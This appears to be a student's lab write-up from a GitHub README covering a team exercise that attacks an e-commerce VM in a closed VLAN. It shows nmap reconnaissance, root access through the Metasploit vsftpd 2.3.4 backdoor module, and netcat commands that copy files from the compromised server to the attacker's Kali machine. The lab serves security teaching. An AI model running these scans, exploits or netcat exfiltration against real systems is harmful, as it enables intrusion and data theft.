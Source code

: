 # Network-Security Injection Project

In this project I and other team members attacked a server using various security tools and tactics. Through this project, we learned how security breaches occur and how to defend systems and networks.

During this endeavor we used two virtual machines in a VLAN. The first was a Kali box and the second was an ecommerce server. Using Kali, we attacked the server and tested its defense mechanisms. While completing the exercise, we were to assume that the e-commerce server was not visible and therefore we did not attempt to log in.

## Injection Number 1

In injection one we were tasked with creating a security policy and introducing the team to the instructor. The security policy and team introduction we wrote can be found here: https://github.com/TristanJRogers/Network-Security/blob/main/Injection%201.docx 

## Injection Number 2

In injection two the team and I were tasked with the following. 

1. Scan the network to find find the IP address of the e-commerce server
2. Scan the e-commerce server and detect the version of the services that were running

For task 1 the team and I used NMAP to scan the entire subnet. In the picture below you will see a hit for 192.168.1.1 which was most likely a router and a hit for 192.168.1.220. We were able to identify 192.168.1.220 as the e-commerce server due to port 80 and port 3306 being open along with the url given in the scan.

![image](https://github.com/user-attachments/assets/22d9fa04-afaa-47dc-bad0-0d3e0be807d4)

For task 2 we used the command nmap -sV on the e-commerce servers IP to display the version of all services open on the e-commerce server. 

![image](https://github.com/user-attachments/assets/0e3b9e18-2af9-4d05-b8a8-42ea459a58e7)

## Injection Number 3

In injection three the team was tasked with breaking into the server using Metasploit

Using the versions of services running on the e-commerce server, we saw that the FTP service it was running had a backdoor vulnerability. We used the (unix/ftp/vsftpd_234_backdoor) exploit on the e-commerce server and were able to gain a access. 

![image](https://github.com/user-attachments/assets/1c4a3094-ca7b-4c50-9f62-5a347c6a85c9)

Finally, to prove we had root access we used the commands whoami, id, pwd, and ls. See the output below. 

![image](https://github.com/user-attachments/assets/1c4ddbf0-5961-4f41-ba46-b0869da00cff)

## Injection Number 4

In injection number four we were tasked with tasked with transferring three files in from the e-commerce server to our kali machine via Netcat. 

We used the command "nc -v 192.168.1.7 69 <insert file name>" on the ecommerce server and command nc-v -l -p69 > <insert file name> on the kali machine

E-commerce server

![image](https://github.com/user-attachments/assets/28e2c63e-8225-42e2-807c-e403169fb9f2)

Kali machine

![image](https://github.com/user-attachments/assets/d6e0b2df-d472-4d74-ab7b-aa38863df461)

For the final results you will see that in the screenshot below, the files were successfully transferred to our kali machine. 

![image](https://github.com/user-attachments/assets/0585b8fc-a4f7-4c6a-97e5-13a897a44ac0)












